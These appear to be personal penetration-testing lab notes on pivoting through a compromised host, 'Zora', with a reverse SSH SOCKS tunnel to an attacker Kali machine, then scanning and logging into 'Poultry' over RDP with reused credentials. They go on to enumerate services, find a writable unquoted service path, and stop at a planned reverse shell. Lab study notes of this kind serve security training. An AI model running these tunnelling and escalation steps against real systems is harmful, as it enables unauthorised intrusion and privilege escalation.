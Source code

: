 ## Creating a stable #reverseTunnel 
1. run **ssh -v** to see the version of SSH.  In this case, Zora is running a newer version of hte ssh client that allows us to establish a very useful type of tunnel via reverse dynamic port forwarding ; this would give us full network access to the 10.5.5.0/24 sandbox internal network through a SOCKS proxy running on our Kali machine !
2. We need a new ssh #key on Zora and to run the ssh client in a way that does not require interaction. On Zora, run **ssh-keygen**, then **cat /var/lib/mysql/.ssh/id_rsa.pub**, and setup the **authorized_keys** file on our Kali machine in the sameway we did earlier. ![[Pasted image 20221110172506.png]] 
3. Run the port forwarding command : **ssh -f -N -R 1080 -o "UserKnownHostsFile=/dev/null" -o "StrictHostKeyChecking=no" -i /var/lib/mysql/.ssh/id_rsa kali@10.11.0.4**. Verify the port is funcitoning by running **netstat** on the kali machine. 
4. Configure #proxyChains on Kali to use the #SOCKS4 proxy by adding **socks4 127.0.0.1 1080** to the **etc/proxychains.conf** file.

# Targeting Poultry

## Network #enumeration
1. Run **Nmap** through *ProxyChains* using the **proxychains** command : **proxychains nmap --top-ports=20 -sT -Pn 10.5.5.20** 
	- We note that ports 135, 139, 445 and 3389 are open, but port 53 is closed.  With port 53 closed, we can assume it's not the DC as ***the #DC commonly has port 53 open***  

## Exploitation (Or just logging in)
1. We know that #RDP is open on *tcp/3389*, so we can attempt to use the creds we just found on Ajla to connect using *xfreerdp* (again, with #proxyChains).  Add teh *+clipboard* flag to allow us to copy and paste to POULTRY.
	- **proxychains xfreerdp /d:sandbox /u:alex /v:10.5.5.20 +clipboard** 
	- Note that the credentials worked. 

## #post-exploitation Enumeration
1. First thing to note is the #AV - it's running McAfee Endpoint Security.
2. Next, typical enumeration commands.  Start with **systeminfo**.  Next, we run **netstat -ano** to see what ports are open (here we validate that our nmap scan did, in fact, find all the ports of interest.)
3. Next, let's see more info about user *alex* by running **net user /domain alex**
	- Note that alex is just a regular domain user. 
4. Let's see what #services are running on this endpoint using #wmic : **wmic service get name,displayname,pathname,startmode**.  This will give us a massive list.  Piping it through **findstr** to look for the word "auto" to see services automatically started.  **wmic service get name,displayname,pathname,startmode | findstr /i "auto"**.  This is also huge - let's filter out anythign from " `c:\windows` " with **`wmic service get name,displayname,pathname,startmode | findstr /i "auto" /v "c:\windows"`** 
	- Note that "Puppet Agent" has an #unquotedServicepath in `C:\Puppet\Current Version\sys\ruby\bin\ruby.exe`!
5. Let's see what user runs this service, to see if it's in the context of a higher privileged user yb searching for "Services" in the start menu.  In this case, it runs as LocalSystem.
6. Next, let's see if `C:\Puppet` directory is writable.  Use the **icacls** command to check what permissions we have. **`icacls "C:\Puppet"`**.  Note that we do !
7. To try to take advantage of the #unquotedServicepath , we'll need to create a reverse shell named **Current.exe** 
